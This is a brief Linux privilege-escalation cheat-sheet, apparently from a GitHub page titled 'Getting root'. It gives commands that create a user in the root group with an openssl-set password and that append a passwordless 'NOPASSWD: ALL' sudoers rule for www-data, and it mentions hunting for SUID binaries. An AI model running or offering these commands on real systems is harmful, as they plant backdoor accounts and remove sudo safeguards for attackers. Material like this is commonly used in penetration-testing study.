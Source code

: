 # Getting root

## Linux

* Method 1 : Create a new user with root privileges
  * useradd -p $\(openssl passwd -1 “newpassword”\) user1
  * usermod -g root user1
* Method 2 : Given we have su command executable, change the configuration such that it does not asks for password.
  * chmod 777 /etc/sudoers && 
  * echo "www-data ALL=NOPASSWD: ALL" &gt;&gt; /etc/sudoers && 
  * chmod 440 /etc/sudoers
* Method 3 : Find a executable with root privileges with suid bit enabled.



